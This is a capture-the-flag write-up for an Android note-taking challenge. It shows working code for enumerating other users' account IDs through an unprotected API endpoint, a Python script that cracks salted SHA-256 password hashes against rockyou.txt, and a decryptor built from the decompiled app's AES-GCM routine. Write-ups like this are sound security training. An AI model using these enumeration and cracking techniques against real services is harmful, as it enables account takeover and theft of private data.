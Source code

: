 # mobisec \[280 Points] (44 Solves)
```
Secure note-taking app.

You are given a wordlist. Furthermore rockyou.txt may be of use.

Note that the initial data on the server was stored differently, and decryption should take in consideration: nonce, tag, ciphertext = encrypted_data[:16], encrypted_data[16:32], encrypted_data[32:]. Use pycryptodome and default key derivation hashing algorithm.
```
We are given a [wordlist](./attachment/wordlist.txt) and an [apk](./attachment/mobisec.apk)

---

## Writeup

First, let's take a look at the wordlist
```
fecd8168-6fd5-4349-89d5-aafcba664e55
9975f865-e2c9-4c48-a419-0abd2138092e
0eb67839-7994-4434-898b-a4faa585ed59
d317c651-3433-4e3b-9a8b-2e57432119f1
f224cd61-8b4f-4157-934d-6b5f64958976
...
```
It contains 100 UIDs, which will probably come in handy later.

Starting the APK, we enter the remote IP and port and are prompted for a password.
If we run mitmproxy/httptoolkit we will see that submitting the password sends a request
to the endpoint `/api/v1/acc/pass/8b6f880a-7d5f-4853-acc9-096cbe612ae1`.
And the response is
```json
{"secret":{"hash":""}}
```

Alright, what if we substitute the UID in the endpoint to the ones in the given wordlist?
We could do this with a python script, but GNU parallel is much more ergonomic
```bash
parallel 'curl -X GET "http://34.89.178.225:30286/api/v1/acc/pass/{}" \\
  -H "Accept: application/json" \\
  -H "Accept-Encoding: gzip" \\
  -H "Connection: Keep-Alive" \\
  -H "Host: 34.89.178.225:30286" \\
  -H "User-Agent: Dalvik/2.1.0 (Linux; U; Android 13; Phone Build/TQ2B.230505.005.A1)" \\
  -H "X-MOBISEC: ef75826d9de13292593aa57f82a7763d" > {}'
```
(All of the headers exact replica of the ones the app used)

Eventually we get 3 uuids for which the server returns a hash.
```
==> 4d1713c1-ef9e-46b1-9fee-9ac57d4180b8 <==
{"secret":{"hash":"e045171f3d3d93ee538b4673f7b5184bfd7d9eaa200f29f81ae1b7123a32ebca"}}

==> c8d8a726-a7c2-4b13-98a4-15f9c3831ef4 <==
{"secret":{"hash":"77518b39e620ac271bfc58639796160cb3984af0a3e5f4367230ad768855e8e7"}}

==> f79dd76f-2ce4-420f-bf46-f0ba82af04fb <==
{"secret":{"hash":"87bcb0554d72bd277ae6c2795b8e09e03c56ed4314352449c3d371b70cdc1ea8"}}
```

We can now extract all the hashes
```bash
$ cat * | jq .secret.hash | tr -d '"'
e045171f3d3d93ee538b4673f7b5184bfd7d9eaa200f29f81ae1b7123a32ebca
77518b39e620ac271bfc58639796160cb3984af0a3e5f4367230ad768855e8e7
87bcb0554d72bd277ae6c2795b8e09e03c56ed4314352449c3d371b70cdc1ea8
```

The description hints us to use rockyou.txt, so that's what we will do. But first,
how were these hashes generated?

Opening the apk in `jadx` we can see that when we enter a password, a salt is
prepended to it and the whole thing is sha256 hashed. \
The salt is
```
LbhXabjVaCenpgvprFnygfNerHavdhrylTrarengrqSbeRirelCnffOhgVzGbbYnmlGbPbqrGung:)
```

The fact that it is **so** long prevents us form really using johntheripper, as
it, for some reason, has a forced salt length limit.

*When in doubt, use python.*

And yes, python is the **worst** with loops, and yet, it didn't take that long.
```py
import hashlib
from multiprocessing import Pool, cpu_count

salt = "LbhXabjVaCenpgvprFnygfNerHavdhrylTrarengrqSbeRirelCnffOhgVzGbbYnmlGbPbqrGung:)"

target_hashes = {
    "e045171f3d3d93ee538b4673f7b5184bfd7d9eaa200f29f81ae1b7123a32ebca",
    "77518b39e620ac271bfc58639796160cb3984af0a3e5f4367230ad768855e8e7",
    "87bcb0554d72bd277ae6c2795b8e09e03c56ed4314352449c3d371b70cdc1ea8"
}

def process_passwords(password):
    password = password.strip()
    combined = salt + password
    sha256_hash = hashlib.sha256(combined.encode('utf-8')).hexdigest()

    if sha256_hash in target_hashes:
        return (sha256_hash, password)
    return None

def main():
    wordlist_path = "/rockyou.txt"
    with open(wordlist_path, "r", encoding="latin-1") as f:
        passwords = f.readlines()

    with Pool(processes=cpu_count()) as pool:
        results = pool.map(process_passwords, passwords)

    for result in filter(None, results):
        print(f"{result[0]} {result[1]}")

if __name__ == "__main__":
    main()
```

And after aprox 8 seconds we get
```
e045171f3d3d93ee538b4673f7b5184bfd7d9eaa200f29f81ae1b7123a32ebca killerpink007
87bcb0554d72bd277ae6c2795b8e09e03c56ed4314352449c3d371b70cdc1ea8 SHALLOWgrounds13
77518b39e620ac271bfc58639796160cb3984af0a3e5f4367230ad768855e8e7 86390627
```

Attempting to use one of the passwords (and replacing in the proxy the default UID
to the UID corresponding to the password) we see that the app makes another
request to `/api/v1/sec/f79dd76f-2ce4-420f-bf46-f0ba82af04fb` which again returns
to us some json with base64 encoded, encrypted data.

Looking more at the decompiled apk, we notice the function
```java
public static byte[] J(String str, byte[] bArr) {
    byte[] bytes = "0123456789abcdef".getBytes();
    byte[] copyOfRange = Arrays.copyOfRange(bArr, 0, 12);
    byte[] copyOfRange2 = Arrays.copyOfRange(bArr, 12, bArr.length);
    SecretKeySpec secretKeySpec = new SecretKeySpec(SecretKeyFactory.getInstance("PBKDF2WithHmacSHA256").generateSecret(new PBEKeySpec(str.toCharArray(), bytes, 100000, 256)).getEncoded(), "AES");
    Cipher cipher = Cipher.getInstance("AES/GCM/NoPadding");
    cipher.init(2, secretKeySpec, new GCMParameterSpec(128, copyOfRange));
    return cipher.doFinal(copyOfRange2);
}
```

which decrypts the encrypted data with `str` - which is the password of that user - and a salt, using AES GCM.
Let's write the decryption in python.

First we will request the encrypted data from the server, and then we will decrypt.
```py
import requests
from Crypto.Protocol.KDF import PBKDF2
from Crypto.Cipher import AES
import base64


IP = "34.107.71.117"
PORT = "31761"


def decrypt_aes_gcm(password, b64_encrypted_data):
    encrypted_data = base64.b64decode(b64_encrypted_data)

    nonce = encrypted_data[:16]
    tag = encrypted_data[16:32]
    ciphertext = encrypted_data[32:]

    salt = b"0123456789abcdef"
    key = PBKDF2(password, salt, dkLen=32, count=100000)

    cipher = AES.new(key, AES.MODE_GCM, nonce=nonce)

    decrypted_data = cipher.decrypt_and_verify(ciphertext, tag)

    return decrypted_data


def retrieve_encrypted_data(uid):
    url = f"http://{IP}:{PORT}/api/v1/sec/{uid}"
    headers = {
        "Accept": "application/json",
        "Accept-Encoding": "gzip",
        "Connection": "Keep-Alive",
        "Host": f"{IP}:{PORT}",
        "User-Agent": "Dalvik/2.1.0 (Linux; U; Android 13; Phone Build/TQ2B.230505.005.A1)",
        "X-MOBISEC": "ef75826d9de13292593aa57f82a7763d",
    }

    response = requests.get(url, headers=headers)

    if response.status_code == 200:
        json_response = response.json()
        return json_response["secret"]["text"]
    raise Exception(
        f"Failed to retrieve data for UID {uid}. Status Code: {response.status_code}"
    )


users = [
    "4d1713c1-ef9e-46b1-9fee-9ac57d4180b8 e045171f3d3d93ee538b4673f7b5184bfd7d9eaa200f29f81ae1b7123a32ebca killerpink007".split(),
    "f79dd76f-2ce4-420f-bf46-f0ba82af04fb 87bcb0554d72bd277ae6c2795b8e09e03c56ed4314352449c3d371b70cdc1ea8 SHALLOWgrounds13".split(),
    "c8d8a726-a7c2-4b13-98a4-15f9c3831ef4 77518b39e620ac271bfc58639796160cb3984af0a3e5f4367230ad768855e8e7 86390627".split(),
]

for uid, _, password in users:
    try:
        b64_encrypted_data = retrieve_encrypted_data(uid)
        decrypted_data = decrypt_aes_gcm(password, b64_encrypted_data)
        print(f"Decrypted data for UID {uid}:", decrypted_data.decode("utf-8"))
    except Exception as e:
        print(f"Error processing UID {uid}: {e}")

```

Success!

**Flag:** `CTF{77cd55d22ef0d516a45ed0e238fbc5dbc4c93b0824047ea3e0a0509a5a9735ac}`
